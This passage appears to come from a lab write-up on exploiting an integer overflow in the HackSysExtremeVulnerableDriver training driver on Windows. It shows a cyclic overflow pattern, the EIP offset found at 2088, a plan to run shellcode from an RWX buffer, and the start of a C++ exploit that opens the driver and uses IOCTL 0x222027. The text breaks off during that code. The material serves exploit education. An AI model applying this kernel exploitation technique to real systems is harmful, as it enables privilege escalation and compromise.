 ```
"0AQ0AR0AS0AT0AU0AV0AW0AX0AY0AZ0Ba0Bb0Bc0Bd0Be0Bf0Bg0Bh0Bi0Bj0Bk0Bl0Bm0Bn0Bo0Bp"
"0Bq0Br0Bs0Bt0Bu0Bv0Bw0Bx0By0Bz0B00B10B20B30B40B50B60B70B80B90BA0BB0BC0BD0BE0BF"
"0BG0BH0BI0BJ0BK0BL0BM0BN0BO0BP0BQ0BR0BS0BT0BU0BV0BW0BX0BY0BZ0Ca0Cb0Cc0Cd0Ce0Cf"
"0Cg0Ch0Ci0Cj0Ck0Cl0Cm0Cn0Co0Cp0Cq0Cr0Cs0Ct0Cu0Cv0Cw0Cx0Cy0Cz0C00C10C20C30C40C5"
"0C60C70C80C90CA0CB0CC0CD0CE0CF0CG0CH0CI0CJ0CK0CL0CM0CN0CO0CP0CQ0CR0CS0CT0CU0CV"
"0CW0CX0CY0CZ0Da0Db0Dc0Dd0De0Df0Dg0Dh0Di0Dj0Dk0Dl0Dm0Dn0Do0Dp0Dq0Dr0Ds0Dt0Du0Dv"
"0Dw0Dx0Dy0Dz0D00D10D20D30D40D50D60D70D80D90DA0DB0DC0DD0DE0DF0DG0DH0DI0DJ0DK0DL"
"0DM0DN0DO0DP0DQ0DR0DS0DT0DU0DV0DW0DX0DY0DZ0Ea0Eb0Ec0Ed0Ee0Ef0Eg0Eh0Ei0Ej0Ek0El"
"0Em0En0Eo0Ep0Eq0Er0Es0Et0Eu0Ev0Ew0Ex0Ey0Ez0E00E10E20E30E40E50E60E70E80E90EA0EB"
"0EC0ED0EE0EF0EG0EH0EI0EJ0EK0EL0EM0EN0EO0EP0EQ0ER0ES0ET0EU0EV0EW0EX0EY0EZ0Fa0Fb"
"0Fc0Fd0Fe0Ff0Fg0Fh0Fi0Fj0Fk0Fl0Fm0Fn0Fo0Fp0Fq0Fr0Fs0Ft0Fu0Fv0Fw0Fx0Fy0Fz0F00F1"
"0F20F30F40F50F60F70F80F90FA0FB0FC0FD0FE0FF0FG0FH0FI0FJ0FK0FL0FM0FN0FO0FP0FQ0FR"
"0FS0FT0FU0FV0FW0FX0FY0FZ0Ga0Gb0Gc0Gd0Ge0Gf0Gg0Gh0Gi0Gj0Gk0Gl0Gm0Gn0Go0Gp0Gq0Gr"
"0Gs0Gt0Gu0Gv0Gw0Gx0Gy0Gz0G00G10G20G30G40G50G60G70G80G90GA0GB0GC0GD0GE0GF0GG0GH"
"0GI0GJ0GK0GL0GM0GN0GO0GP0GQ0GR0GS0GT0GU0GV0GW0GX0GY0GZ0Ha0Hb0Hc0Hd0He0Hf0Hg0Hh"
"0Hi0Hj0Hk0Hl0Hm0Hn0Ho0Hp0Hq0Hr0Hs0Ht0Hu0Hv0Hw0Hx0Hy0Hz0H00H10H20H30H40H50H60H7"
"0H80H90HA0HB0HC0HD0HE0HF0HG0HH0HI0HJ0HK0HL0HM0HN0HO0HP0HQ0HR0HS0HT0HU0HV0HW0HX"
"0HY0HZ0Ia0Ib0Ic0Id0Ie0If0Ig0Ih0Ii0Ij0Ik0Il0Im0In0Io0Ip0Iq0Ir0Is0It0Iu0Iv0Iw0Ix"
"0Iy0Iz0I00I10I20I30I40I50I60I70I80I90IA0IB0IC0ID0IE0IF0IG0IH0II0IJ0IK0IL0IM0IN"
"0IO0IP0IQ0IR0IS0IT0IU0IV0IW0IX0IY0IZ0Ja0Jb0Jc0Jd0Je0Jf0Jg0Jh0Ji0Jj0Jk0Jl0Jm0Jn"
"0Jo0Jp0Jq0Jr0Js0Jt0Ju0Jv0Jw0Jx0Jy0Jz0J00J10J20J30J40J50J60J70J80J90JA0JB0JC0JD"
"0JE0JF0JG0JH0JI0JJ0JK0JL0JM0JN0JO0JP0JQ0JR0JS0JT0JU0JV0JW0JX0JY0JZ0Ka0Kb0Kc0Kd"
"0Ke0Kf0Kg0Kh0Ki0Kj0Kk0Kl0Km0Kn0Ko0Kp0Kq0Kr0Ks0Kt0Ku0Kv0Kw0Kx0Ky0Kz0K00K10K20K3"
"0K40K50K60K70K80K90KA0KB0KC0KD0KE0KF0KG0KH0KI0KJ0KK0KL0KM0KN0KO0KP0KQ0KR0KS0KT"
"0KU0KV0KW0KX0KY0KZ0La0Lb0Lc0Ld0Le0Lf0Lg0Lh0Li0Lj0Lk0Ll0Lm0Ln0Lo0";
```
I then added the terminator to the end like so.
```
---SNIP---
...Lm0Ln0Lo0\xb0\xb0\xd0\xba";
```

And we see I got an access violation at `306f4c30`.

![](/assets/images/AWE/intover5.PNG)

Using pattern again, I got the exact offset and we confirmed our suspicions. 
```
root@kali:~# python3 pattern.py -o 306f4c30
Exact offset found at position: 2088
```

From here on out, this plays out just like stack buffer overflow post, so please reference those posts if you have any questions! We initialize our shellcode, create a RWX buffer for it, move it there, and then use the address of the buffer to overwrite `eip` at that offset we found. 

## Final Code
```cpp
#include <iostream>
#include <string>
#include <iomanip>

#include <Windows.h>

using namespace std;

#define DEVICE_NAME         "\\\\.\\HackSysExtremeVulnerableDriver"
#define IOCTL               0x222027

HANDLE get_handle() {

    HANDLE hFile = CreateFileA(DEVICE_NAME,
        FILE_READ_ACCESS | FILE_WRITE_ACCESS,
        FILE_SHARE_READ | FILE_SHARE_WRITE,
```